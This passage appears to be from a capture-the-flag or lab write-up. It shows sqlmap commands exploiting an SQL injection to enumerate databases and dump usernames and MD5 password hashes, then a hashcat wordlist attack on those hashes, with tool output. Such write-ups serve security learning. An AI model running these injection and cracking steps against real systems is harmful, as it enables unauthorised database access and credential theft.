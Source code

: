 so we have the databases:
```bash
db_sfms                     # database school file management system
erms_db                     # exam ??? management system
information_schema
roundcubedb                 # ??
```

we know the table and column names from the query in the source code, so let's dump the users and password for db_sfms

```bash
> sqlmap -r admin.req --dbms=mysql -D db_sfms -T user -C username,password --dump

...SNIP

[3 entries]
+------------------+----------------------------------+
| username         | password                         |
+------------------+----------------------------------+
| Stev1992         | 112dd9d08abf9dcceec8bc6d3e26b138 |
| UndetectableMark | b35e311c80075c4916935cbbbd770cef |
| admin            | fc8ec7b43523e186a27f46957818391c |
+------------------+----------------------------------+

...SNIP

```

let's see if we can identify the hash type and crack these

it seems they are md5, let's see if we can crack them. Create a local file with the hashes and run hashcat

```bash
> hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
```

none were crackable, but at least we found some usernames

let's look in the other databases

```bash
> sqlmap -r admin.req --dbms=mysql -D erms_db --tables

...SNIP
[6 tables]
+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+
...SNIP

> sqlmap -r admin.req --dbms=mysql -D erms_db -T users --columns

...SNIP
[11:49:54] [INFO] retrieved:
[11:49:59] [INFO] adjusting time delay to 1 second due to good response times
id
[11:50:05] [INFO] retrieved: int(50)
[11:50:32] [INFO] retrieved: firstname
[11:51:01] [INFO] retrieved: varchar(250)
[11:51:41] [INFO] retrieved: lastname
[11:52:07] [INFO] retrieved: varchar(250)
[11:52:46] [INFO] retrieved: username
```